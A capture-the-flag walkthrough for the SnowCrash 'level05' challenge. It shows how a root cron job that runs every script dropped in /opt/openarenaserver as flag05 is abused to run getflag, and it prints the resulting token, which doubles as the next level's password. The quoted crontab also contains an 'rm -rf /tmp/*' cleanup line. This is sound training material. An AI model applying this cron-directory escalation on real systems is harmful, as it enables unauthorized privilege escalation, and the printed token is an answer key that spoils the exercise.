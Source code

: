 # level05

## Cronjobs and init.rc shenanigans

For no reason whatsoever, let's try running this command:
```bash
level05@SnowCrash:~$ grep -R 'flag05' /var
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/var/spool/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Wow, in an unrelated train of thought, why don't we take a look at `/var/spool/cron/crontabs/root`
```bash
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.zk72ug/crontab installed on Sat Mar  5 20:18:51 2016)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
0 * * * * rm -rf /tmp/* /var/tmp/*
```
Every 2 minutes, `su -c "sh /usr/sbin/openarenaserver" - flag05` is run, executing `sh /usr/sbin/openarenaserver` as `flag05`.

Every minute `rm -rf /tmp/* /var/tmp/*` is run.

So, what's inside of `/usr/sbin/openarenaserver`?
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This script executes whatever is inside of `/opt/openarenaserver` as a bash script with a limit of 5 seconds of cpu time, before removing it.

Thenceforth, lets make our own bash script to get our flag
```bash
level05@SnowCrash:~ $ rm -f /tmp/flag; \
> printf '#!/bin/sh\ngetflag>/tmp/flag\n'>/opt/openarenaserver/snjort; \
> chmod +x /opt/openarenaserver/snjort; \
> while true; do if [ -f /tmp/flag ]; then cat /tmp/flag; exit; fi; done
Check flag.Here is your token : viuaaale9huek52boumoomioc
exit
level05@SnowCrash:~ $ su level06
Password: viuaaale9huek52boumoomioc
level06@SnowCrash:~ $ 
```
